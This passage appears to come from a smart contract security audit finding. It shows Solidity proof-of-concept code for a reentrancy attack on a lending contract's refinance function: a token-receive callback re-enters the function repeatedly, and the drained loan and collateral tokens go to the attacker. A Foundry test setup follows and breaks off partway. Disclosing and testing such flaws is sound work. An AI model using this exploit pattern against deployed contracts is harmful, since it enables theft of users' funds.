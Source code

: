 ```solidity
        refinance = Refinance({
            loanId: _loanId,
            poolId: _poolId,
            debt: _debt,
            collateral: _newCollateral
        });
        Refinance[] memory refinances = new Refinance[](1);
        refinances[0] = refinance;
        lender.refinance(refinances);
        // [3] Send the funds back to the attacker
        ERC20(loanToken).transfer(msg.sender, ERC20(loanToken).balanceOf(address(this)));
        ERC20(collateralToken).transfer(msg.sender, ERC20(collateralToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 amount) external {
        require(msg.sender == collateralToken, "not collateral token");
        if (from == address(lender)) {
            uint256 lenderBalance = ERC20(collateralToken).balanceOf(address(lender));
            if (lenderBalance > 0) {
                // Re-enter
                Refinance[] memory refinances = new Refinance[](1);
                if (lenderBalance >= amount) {
                    refinances[0] = refinance;
                } else {
                    Refinance memory r = refinance;
                    r.collateral += amount - lenderBalance;
                    refinances[0] = r;
                }
                lender.refinance(refinances);
            }          
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
    address attacker = address(0x5);
    // Setup
    vm.startPrank(lender1);
    WeirdToken weirdToken = new WeirdToken(1_000_000*10**18);
    weirdToken.transfer(address(lender), 900_000*10**18); // Lender contract has 900_000 weirdToken
    weirdToken.transfer(address(attacker), 100_000*10**18); // Attacker has 100_000 weirdToken
    // lender1 creates a pool of loanTokens accepting weirdTokens as collateral
    Pool memory p = Pool({
        lender: lender1,
        loanToken: address(loanToken),
        collateralToken: address(weirdToken),
        minLoanSize: 10*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 poolId = lender.setPool(p);

    assertEq(weirdToken.balanceOf(address(lender)), 900_000*10**18);
    assertEq(loanToken.balanceOf(address(lender)), 1_000*10**18);
    assertEq(weirdToken.balanceOf(address(attacker)), 100_000*10**18);  // Attacker starts with some weirdTokens        
```